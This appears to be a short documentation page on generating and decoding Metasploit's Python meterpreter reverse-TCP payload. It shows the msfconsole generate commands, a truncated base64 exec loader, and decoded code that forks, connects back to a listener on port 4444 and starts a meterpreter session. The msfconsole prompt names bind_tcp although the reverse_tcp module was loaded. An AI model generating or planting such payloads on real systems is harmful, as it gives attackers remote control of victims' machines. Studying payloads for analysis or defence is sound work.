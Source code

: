 # python/meterpreter_reverse_tcp (single payload)

## Generate

```
msf5 > use python/meterpreter_reverse_tcp
msf5 payload(python/meterpreter_bind_tcp) > generate -f raw -o single.py
```
## Result
```python
import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('IyEvdXNyL2Jpbi9weXRob24KaW1wb3J0IGJpbmFzY2lpCmltcG9yd...
...)))
```

## Base64 Decoded Content
The meterpreter payload is invoked as follows (see end of file):
```python
...
_try_to_fork = TRY_TO_FORK and hasattr(os, 'fork')
if not _try_to_fork or (_try_to_fork and os.fork() == 0):
    if hasattr(os, 'setsid'):
        try:
            os.setsid()
        except OSError:
            pass
    if HTTP_CONNECTION_URL and has_urllib:
        transport = HttpTransport(HTTP_CONNECTION_URL, proxy=HTTP_PROXY, user_agent=HTTP_USER_AGENT,
                http_host=HTTP_HOST, http_referer=HTTP_REFERER, http_cookie=HTTP_COOKIE)
    else:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

        s.connect(('127.0.0.1',4444))

        transport = TcpTransport.from_socket(s)
    met = PythonMeterpreter(transport)
    # PATCH-SETUP-TRANSPORTS #
    met.run()
```

Full payload contents are stored in file `single_decoded.py`.
